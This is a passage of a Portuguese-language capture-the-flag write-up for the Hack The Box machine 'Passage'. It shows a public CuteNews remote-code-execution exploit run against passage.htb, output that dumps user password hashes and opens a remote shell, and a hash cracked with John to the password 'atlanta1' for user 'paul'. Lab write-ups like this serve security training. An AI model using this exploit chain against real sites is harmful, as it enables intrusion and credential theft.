 A partir da execução deste exploit não apenas pude obter uma execução remota de código mas também um dump dos hashes das senhas do portal.

```bash
$ python3 48800.py



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

[->] Usage python3 expoit.py

Enter the URL> http://passage.htb
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: T6iejum4p0 and password: T6iejum4p0

=======================================================
Sending Payload
=======================================================
signature_key: 93cc9868982b197fd95de590c77cf9b9-T6iejum4p0
signature_dsi: 4afbd01426014d57617027ee835dc2ad
logged in user: T6iejum4p0
============================
Dropping to a SHELL
============================

command > 
```

Crackeando os hashes utilizando John, encontrei a senha **atlanta1**, que pertence ao usuário **paul**, o qual foi identificado após a edição do script Python conforme abaixo.

